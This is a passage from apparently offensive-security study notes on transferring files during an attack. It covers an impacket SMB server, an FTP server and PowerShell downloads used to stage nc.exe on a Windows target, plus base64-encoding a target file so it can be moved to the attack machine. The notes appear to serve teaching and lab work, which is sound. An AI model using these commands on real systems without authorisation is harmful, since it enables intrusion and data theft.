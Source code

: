 For this, we need to create an smb server.
We can use **smbserver.py** from impacket.

On our linux machine;
```
# We need to create our files into the /tmp/smbshare directory

sudo impacket-smbserver share -smb2support /tmp/smbshare
```

On the target windows machine;
```
copy \\YOUR_IP\share\nc.exe
```
On newer windows versions, unauthenticated guess access may be blocked for security reasons.

To bypass this, we can set up our smb server with a username and password.
```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

We can also mount our share;
```
# Mounting our share
net use n: \\192.168.220.133\share /user:test test
# accessing our files
copy n:\nc.exe
```

### FTP Downloads
Ftp usually uses port TCP/21 and TCP/20

We can configure an FTP server using python3 pyftpdlib module.
__Installation__
```
sudo pip3 install pyftpdlib
```
__Now serving the server...__
```
# Anonymous login is usually set by default if we dont specify the credentials.

sudo python3 -m pyftpdlib --port 21
```

__Transferring files onto the target machine__
```
(New-Object Net.WebClient).DownloadFile('ftp://IP_FILE/file.txt', 'file.txt')
```
![image](https://user-images.githubusercontent.com/99975622/222541239-1b5e0462-b623-41f8-b779-555f7467c1b3.png)

### Moving Files from the Target Machine to your Attack Machine
#### Powershell Base64 Encode & Decode
__Encoding the files on the target machine__
```
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
__Confirming The MD5-hash__
```
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```
